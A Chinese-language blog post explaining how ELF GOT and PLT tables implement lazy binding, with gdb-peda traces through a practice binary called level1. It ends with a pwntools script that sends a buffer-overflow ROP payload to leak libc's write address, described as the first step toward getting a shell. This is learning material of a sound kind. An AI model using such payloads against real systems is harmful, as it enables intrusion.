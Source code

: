```yaml
---
layout: post
title: "非常详细地解释plt&got"
date: 2018-04-07
categories: jekyll update
---
```

#### 非常详细解释plt&got
GOT（Global Offset Table）：全局偏移表用于记录在 ELF 文件中所用到的共享库中符号的绝对地址。在程序刚开始运行时，GOT 表项是空的，当符号第一次被调用时会动态解析符号的绝对地址然后转去执行，并将被解析符号的绝对地址记录在 GOT 中，第二次调用同一符号时，由于 GOT 中已经记录了其绝对地址，直接转去执行即可（不用重新解析）。

PLT（Procedure Linkage Table）：过程链接表的作用是将位置无关的符号转移到绝对地址。当一个外部符号被调用时，PLT 去引用 GOT 中的其符号对应的绝对地址，然后转入并执行。

GOT是Linux ELF文件中用于定位全局变量和函数的一个表。PLT是Linux ELF文件中用于延迟绑定的表，即函数第一次被调用的时候才进行绑定。
所谓延迟绑定，就是**当函数第一次被调用的时候才进行绑定**（包括符号查找、重定位等），如果函数从来没有用到过就不进行绑定。基于延迟绑定可以大大加快程序的启动速度，特别有利于一些引用了大量函数的程序。(打个比方，你一次性去超市买了一大堆物品，但是其中有些物品可能你永远也不会使用，这样就浪费了钱财；而延迟绑定就相当于需要的时候才去超市买东西，这样就节省了开支。)
下面简单介绍一下延迟绑定的基本原理。假如存在一个bar函数，这个函数在PLT中的条目为bar@plt，在GOT中的条目为bar@got，那么在第一次调用bar函数的时候，首先会跳转到PLT，伪代码如下：
```
bar@plt:
jmp bar@got
patch bar@got
```
这里会从PLT跳转到GOT，如果函数从来没有调用过，那么这时候GOT会跳转回PLT并调用patch bar@got，这一行代码的作用是将bar函数真正的地址填充到bar@got，然后跳转到bar函数真正的地址执行代码。当我们下次再调用bar函数的时候，执行路径就是先后跳转到bar@plt、bar@got、bar真正的地址。

<img src="/images/posts/plt&got/1521794449228.png" >

关于这个非常棒的一个解释博文：http://rickgray.me/use-gdb-to-study-got-and-plt


例子解析：

做这个例子的时候有一个**问题**：从网上下载的ELF文件可以完成复现，但是自己用源码编译的则会出错，地址会有点奇怪，可能是自己配置的问题还处理的不够好。。。**待解决**；下面用下载下来的ELF文件(之前的level1)来解释一下这里的pit&got
**已解决**：编译程序时没有关闭pie，只要添加参数`-no-pie`即可。

这里以write函数作为例子：

首先单步执行到`call   0x8048340 <write@plt>`
查看`0x8048340`地址的情况：
```
db-peda$ x /3i 0x8048340
   0x8048340 <write@plt>:	jmp    DWORD PTR ds:0x804a00c
   0x8048346 <write@plt+6>:	push   0x18
   0x804834b <write@plt+11>:	jmp    0x8048300
```
可以看出其跳转到地址`0x804a00c`
用xinfo查看其跳转情况：
```
gdb-peda$ xinfo 0x804a00c
0x804a00c --> 0x8048346 (<write@plt+6>:	push   0x18)
Virtual memory mapping:
Start : 0x0804a000
End   : 0x0804b000
Offset: 0xc
Perm  : rwxp
Name  : /root/Desktop/ROP/linux_x86/level1
```
容易知道其在plt表中有一个跳转到`0x8048346 `，跟进查看地址情况
```
gdb-peda$ pdisass 0x8048346
Dump of assembler code from 0x8048346 to 0x8048366::	Dump of assembler code from 0x8048346 to 0x8048366:
   0x08048346 <write@plt+6>:	push   0x18
   0x0804834b <write@plt+11>:	jmp    0x8048300
   0x08048350 <_start+0>:	xor    ebp,ebp
   0x08048352 <_start+2>:	pop    esi
   0x08048353 <_start+3>:	mov    ecx,esp
   0x08048355 <_start+5>:	and    esp,0xfffffff0
   0x08048358 <_start+8>:	push   eax
   0x08048359 <_start+9>:	push   esp
   0x0804835a <_start+10>:	push   edx
   0x0804835b <_start+11>:	push   0x80484d0
   0x08048360 <_start+16>:	push   0x8048460
   0x08048365 <_start+21>:	push   ecx
End of assembler dump.

```

又一次跳转`0x8048300`：
```
gdb-peda$ pdisass 0x8048300
Dump of assembler code from 0x8048300 to 0x8048320::	Dump of assembler code from 0x8048300 to 0x8048320:
   0x08048300:	push   DWORD PTR ds:0x8049ff8
   0x08048306:	jmp    DWORD PTR ds:0x8049ffc
   0x0804830c:	add    BYTE PTR [eax],al
   0x0804830e:	add    BYTE PTR [eax],al
   0x08048310 <read@plt+0>:	jmp    DWORD PTR ds:0x804a000
   0x08048316 <read@plt+6>:	push   0x0
   0x0804831b <read@plt+11>:	jmp    0x8048300
End of assembler dump.
```
再一次跳转`0x8049ffc`
```
gdb-peda$ xinfo 0x8049ffc
0x8049ffc --> 0xb7ff0710 (<_dl_runtime_resolve>:	push   eax)
Virtual memory mapping:
Start : 0x08049000
End   : 0x0804a000
Offset: 0xffc
Perm  : r-xp
Name  : /root/Desktop/ROP/linux_x86/level1
```
这上面的`_dl_runtime_resolve`涉及到后面level4要讲的一个高级ROP的用法，这里先不对这里作详细讲解

经过上面的流程分析(多次跳转)，我们可以进行进行单步调试来进行分析，当动态解析（_dl_runtime_resolve）完成后，流程会直接跳转到 printf() 函数主体

这一堆的跳转可以结合上面那一副图来进行理解。

<img src="/images/posts/plt&got/1523088173997.png" >

单步跟进发现进行一系列的符号解析操作之后ret到write函数的真正地址`0xb7ed3cc0`进行操作。

<img src="/images/posts/plt&got/1523088253947.png" >

怎样验证这个就是write的真实地址呢？
写了个程序来打印write的真实地址：
注：下面这个脚本可以用来泄露libc地址的第一步，再通过计算可以得到system的真实地址，最后成功getshell。
```
from pwn import *
elf = ELF('level1')

p = process('./level1')

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)
```

运行结果：

<img src="/images/posts/plt&got/1523089037547.png" >

总结来说就是，GOT 保存了程序中所要调用的函数的地址，运行一开时其表项为空，会在运行时实时的更新表项。一个符号调用在第一次时会解析出绝对地址更新到 GOT 中，第二次调用时就直接找到 GOT 表项所存储的函数地址直接调用了。










